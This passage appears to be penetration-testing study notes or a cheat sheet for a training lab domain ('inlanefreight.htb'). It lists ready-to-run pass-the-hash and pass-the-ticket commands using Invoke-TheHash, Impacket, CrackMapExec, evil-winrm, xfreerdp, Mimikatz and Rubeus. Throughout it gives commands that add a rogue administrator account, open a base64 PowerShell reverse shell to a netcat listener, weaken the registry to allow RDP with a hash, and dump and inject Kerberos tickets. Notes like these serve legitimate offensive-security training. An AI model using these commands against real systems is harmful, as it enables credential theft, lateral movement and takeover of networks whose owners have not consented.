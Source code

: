     1. Invoke-TheHash with SMB:
        1. `Import-Module .\Invoke-TheHash.psd1`
        2. `Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose`
        3. Netcat Listener: `.\nc.exe -lvnp 8001`
        4. Visit https://www.revshells.com/, set IP 172.16.1.5 and port 8001, and select the option PowerShell #3 (Base64)
        5. `Import-Module .\Invoke-TheHash.psd1`
        6. `Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e JABjAG(...))"`
## **Pass the Hash with Impacket (Linux)**
1. Pass the Hash with Impacket PsExec: `impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453`
2. Pass the Hash with CrackMapExec (Linux): `crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453`
3. CrackMapExec - Command Execution: `crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami`
4. Pass the Hash with evil-winrm (Linux): `evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453`
5. Pass the Hash with RDP (Linux): 
    1. Enable Restricted Admin Mode to Allow PtH: `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
    2. Pass the Hash Using RDP: `xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B`
## **Pass the Ticket (PtT) from Windows**
1. Mimikatz - Export Tickets:
    1. `privilege::debug`
    2. `sekurlsa::tickets /export`
    3. `dir *.kirbi`
2. Rubeus - Export Tickets: `Rubeus.exe dump /nowrap`
3. Mimikatz - Extract Kerberos Keys:
    1. `privilege::debug`
    2. `sekurlsa::ekeys`
4. Mimikatz - Pass the Key or OverPass the Hash: 
    1. `privilege::debug`
    2. `sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f`
5. Rubeus - Pass the Key or OverPass the Hash: ` Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap`
6. Rubeus Pass the Ticket: `Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt`
7. Rubeus - Pass the Ticket: `Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi`
8. Convert .kirbi to Base64 Format: `[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))`
9. Pass the Ticket - Base64 Format: `Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>`
10. Mimikatz - Pass the Ticket:
    1. `privilege::debug`
    2. `kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"`
## **Pass The Ticket with PowerShell Remoting (Windows)**
1. Mimikatz - Pass the Ticket for Lateral Movement
    1. `mimikatz.exe`
    2. `privilege::debug`
    3. `kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"`
2. Rubeus - PowerShell Remoting with Pass the Ticket: `Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show`